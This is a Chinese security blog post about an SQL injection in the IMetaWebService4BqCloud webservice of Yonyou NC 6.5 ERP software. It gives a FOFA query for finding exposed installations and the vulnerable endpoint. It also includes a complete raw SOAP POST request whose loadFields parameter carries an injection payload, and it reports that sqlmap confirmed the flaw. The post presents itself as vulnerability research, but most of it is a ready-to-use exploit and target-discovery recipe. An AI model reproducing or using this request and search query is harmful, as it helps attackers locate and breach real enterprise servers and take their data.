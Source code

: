 > **原文链接**: https://mp.weixin.qq.com/s?__biz=MzkzMzE5OTQzMA==&mid=2247487647&idx=1&sn=0568c440e430ad84c661d9862760d84d

#  漏洞利用 | 用友NC IMetaWebService4BqCloud数据源SQL注入  
原创 chobits02  C4安全   2025-07-12 13:36  
  
前言  
  
这次分析的漏洞是用友NC的一个比较隐蔽的SQL注入，网上很少有利用信息公开过  
  
原来我是想投稿在奇安信社区的来着，不过漏洞分析总感觉缺乏关键证据，于是就放在公众号上了，希望有能力的师傅们能就这代码深挖一下  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJSn3Viac9hzfSk85o3uJ7uzC7Gmom28O1jFJ4fwjVPdicIrLGQG93XnBjHhg7yq0TXflaFricam17Rwg/640?wx_fmt=png&from=appmsg "")  
  
那么废话少说，一上来就先说下漏洞的利用方法  
  
漏洞影响的产品是用友NC 65版本，FOFA语法是  

```
app=&#34;用友-UFIDA-NC&#34;
```

  
这里请求目标的http://xxxx/uapws/service/uap.pubitf.ae.meta.IMetaWebService4BqCloud?WSDL  
  
可以看到webservice的调用方法，用wsdl解析工具解析下构造请求即可  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJSn3Viac9hzfSk85o3uJ7uzCibV3QhRMYVhWyxoJjraYw2HiaCJESCqEoSicWMG1GvXwoB3JQpI9mtFeQ/640?wx_fmt=png&from=appmsg "")  
  
使用SQLMAP对数据包进行验证，验证存在注入  
  
  
抓包可以看到，漏洞的利用数据包如下  

```
POST /uapws/service/uap.pubitf.ae.meta.IMetaWebService4BqCloud HTTP/1.1
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=09133CFE3A7B0CE8341AB1A7DEDFCCDE.server
Connection: keep-alive
SOAPAction: urn:loadFields
Content-Type: text/xml;charset=UTF-8
Host: 
Content-Length: 350
<soapenv:Envelope xmlns:soapenv=&#34;http://schemas.xmlsoap.org/soap/envelope/&#34; xmlns:imet=&#34;http://meta.ae.pubitf.uap/IMetaWebService4BqCloud&#34;>
   <soapenv:Header/>
   <soapenv:Body>
      <imet:loadFields>
         <!--type: string-->
         <imet:string>SmartModel^1';*</imet:string>
      </imet:loadFields>
   </soapenv:Body>
</soapenv:Envelope>
```
